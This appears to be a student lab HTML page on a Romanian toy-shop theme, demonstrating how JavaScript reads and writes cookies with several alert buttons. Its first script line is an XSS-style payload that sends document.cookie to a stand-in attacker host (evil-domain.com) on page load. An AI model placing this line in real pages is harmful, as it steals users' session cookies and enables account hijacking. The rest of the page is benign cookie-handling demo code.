 <script> 
  (new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
document.cookie = "name=oeschger";
document.cookie = "favorite_food=tripe";
function alertCookie() {
  alert(document.cookie);
} 
document.cookie = "test1=HELLO World";
document.cookie = "test2=Lab MDCP";

const cookieValue = document.cookie
  .split('; ')
  .find(row => row.startsWith('test2='))
  .split('=')[1];

function alertCookieValue() {
  alert(cookieValue);
}
function doOnce() {
  if (!document.cookie.split('; ').find(row => row.startsWith('doSomethingOnlyOnce'))) {
    alert("Do something here!");
    document.cookie = "doSomethingOnlyOnce=true; expires=Fri, 31 Dec 9999 23:59:59 GMT";
  }
}
function resetOnce() {
  document.cookie = "doSomethingOnlyOnce=; expires=Thu, 01 Jan 1970 00:00:00 GMT";
}

//ES5

if (document.cookie.split(';').some(function(item) {
    return item.indexOf('reader=1') >= 0
})) {
    console.log('The cookie "reader" has "1" for value')
}

//ES2016

if (document.cookie.split(';').some((item) => item.includes('reader=1'))) {
    console.log('The cookie "reader" has "1" for value')
}
</script>
  <body>
  Bun venit pe pagina cu jucarii!<br>
  <button onclick="alertCookie()">Show cookies</button><br>
  <button onclick="alertCookieValue()">Show cookie value</button><br>
  <button onclick="doOnce()">Only do something once</button><br>
  <button onclick="resetOnce()">Reset only one cookie</button><br>
Negru Denisa
</body>
